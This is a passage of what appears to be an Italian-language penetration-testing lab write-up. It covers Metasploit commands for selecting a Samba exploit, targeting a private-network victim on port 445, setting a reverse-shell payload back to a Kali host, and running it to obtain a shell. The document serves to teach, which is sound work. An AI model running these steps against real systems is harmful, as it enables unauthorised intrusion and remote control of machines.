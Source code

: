    - ![Screenshot della ricerca](./Screenshots/SearchSambaMetaspl.png)
3. **Selezione dell'exploit**:
   - Comando:
     ```bash
     use 15
     ```
   - ![Screenshot della selezione dell'exploit](./Screenshots/SambaUse15.png)
4. **Configurazione dei parametri dell'exploit**:
   - Impostazione dell'IP della macchina vittima:
     ```bash
     set RHOSTS 192.168.50.3
     ```
   - Impostazione della porta del servizio Samba:
     ```bash
     set RPORT 445
     ```
   - Configurazione del payload:
     ```bash
     set payload cmd/unix/reverse
     ```
   - Impostazione dell'IP e della porta di ascolto di Kali Linux:
     ```bash
     set LHOST 192.168.50.165
     set LPORT 5555
     ```
5. **Esecuzione dell'exploit**:
   - Comando:
     ```bash
     exploit
     ```
   - L'exploit ha avuto successo, fornendo una shell sulla macchina vittima.